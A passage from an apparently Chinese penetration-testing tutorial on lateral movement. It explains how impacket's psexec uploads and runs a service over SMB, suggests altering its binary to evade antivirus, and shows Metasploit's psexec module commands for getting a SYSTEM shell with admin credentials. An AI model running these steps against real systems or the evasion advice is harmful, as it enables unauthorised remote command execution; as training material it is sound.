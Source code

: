 <h4>2、使用：</h4>
1、工具的准备（impacket中，服务程序位于/impacket/examples/remcomsvc.py文件中（二进制数据），需要修改其中的二进制数据绕过杀软）
1、通过IPC$（smb协议）建立连接、上传服务程序到c:\windows（ADMIN$）目录（管理员权限，且防火墙端口开放）
2、打开管道，连接目标服务控制管理器SCM，创建、启动服务（serviceinstall.py进行服务安装），通过管道进行命令执行的输入输出，命令执行结束。
3、重新连接服务控制管理器，停止并删除服务、并删除服务程序



#### 2、使用：

---


---


## 四、MSF

> 
<h3>1、简述：</h3>
1）特点：安全漏洞检测工具、数千个软件漏洞（不断更新）
<hr/>
2）功能：信息收集、漏洞探测、漏洞利用等（即渗透测试的全流程）
<hr/>
3）GitHub：
[rapid7/metasploit-framework: Metasploit Framework (github.com)<img alt="icon-default.png?t=N176" src="https://csdnimg.cn/release/blog_editor_html/release2.2.3/ckeditor/plugins/CsdnLink/icons/icon-default.png?t=N176"/>https://github.com/rapid7/metasploit-framework](https://github.com/rapid7/metasploit-framework)
<hr/>
4）下载最新版本：
[夜间安装程序|Metasploit文档渗透测试软件，渗透测试安全性<img alt="icon-default.png?t=N176" src="https://csdnimg.cn/release/blog_editor_html/release2.2.3/ckeditor/plugins/CsdnLink/icons/icon-default.png?t=N176"/>https://docs.metasploit.com/docs/using-metasploit/getting-started/nightly-installers.html](https://docs.metasploit.com/docs/using-metasploit/getting-started/nightly-installers.html)



---


> 
<h3>2、使用：</h3>
1）搜索相关模块
<pre>`search psexec`</pre>
2）使用模块
<pre><code>use exploit/windows/smb/psexec
（或者use +序号）
</code></pre>
3）配置、运行
<pre><code>show options                #查看相关配置
set rhosts 192.168.*.*      #目标主机
set smbuser administrator   #用户名
set smbpass 111111          #密码

exploit                     #运行
（会出现meterpreter &gt;）</code></pre>
4）命令执行
<pre><code>输入shell
meterpreter &gt;shell
（获得system权限的shell，进行相关命令执行）</code></pre>



